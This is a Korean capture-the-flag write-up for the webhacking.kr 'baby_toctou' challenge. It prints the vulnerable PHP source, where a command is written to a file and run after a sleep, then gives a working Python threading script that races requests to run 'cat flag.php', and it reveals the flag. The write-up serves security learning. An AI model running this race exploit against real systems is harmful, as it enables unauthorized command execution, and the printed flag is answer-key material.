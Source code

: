 ### [소스코드]

```html
WebShell [Version 1.0.00000.001]

WebShell:/ $ 
```

<br>

### [소스코드 분석]
1. `Webshell:/$`뒤에 `cat api.php`입력
```html
WebShell [Version 1.0.00000.001]

WebShell:/ $ cat api.php
<?php
  // system($_GET['q']);
  if(!preg_match('/^[a-f0-9]+$/',$_COOKIE['baby_toctou'])){ $newCookie = uniqid().rand(1,999999999); setcookie("baby_toctou",$newCookie); $_COOKIE['baby_toctou'] = $newCookie; }
  $cmd = $_GET['q'];
  $myfile = fopen("user/{$_COOKIE['baby_toctou']}.sh", "w") or die("Unable to open file!");
  fwrite($myfile, $cmd);
  fclose($myfile);
  if(($cmd === "ls") || ($cmd === "cat api.php") || ($cmd === "cat index.php")){ // valid check
    sleep(1); // my server is small and weak
    system("sh ./user/{$_COOKIE['baby_toctou']}.sh");
  }
  else{
    echo <<<HELP
only "ls", "cat api.php", "cat index.php" allowed
HELP;
  }
?>
```
2. 위의 코드에서 `sleep(1);`때문에 Race Condition에 취약점이 발생
3. 파이썬 스크립트를 작성하여 Race Condition 취약점을 트리거 할 수 있음
    * 실행시킬때 오류가 발생하는 경우(VScode), 파이썬 requests모듈을 설치해야함
    * 설치방법 : 터미널 `pip install requests`
```py
import requests
import threading
 
url = "http://webhacking.kr:10019/api.php"
found_flag = False
 
headers = {
    "Cookie": "baby_toctou=645a7c1eda9d3388502911"
}
 
def send_request_1():
    params = {"q": "cat flag.php"}
    requests.get(url, headers=headers, params=params)
 
def send_request_2():
    global found_flag
    params = {"q": "ls"}
    res = requests.get(url, headers=headers, params=params)
    if "FLAG{" in res.text:
        found_flag = True
        print(res.text)
 
def exploit_race_condition():
    thread1 = threading.Thread(target=send_request_1)
    thread2 = threading.Thread(target=send_request_2)
 
    thread1.start()
    thread2.start()
 
    thread1.join()
    thread2.join()
 
if __name__ == "__main__":
    for i in range(10):
        if found_flag:
            break
        exploit_race_condition()
```
4. 스크립트를 실행시키면 FLAG값이 나옴
`<?php
  $flag = "FLAG{Mama_i_know_how_toctou_works}";
?>
`


  
  
  
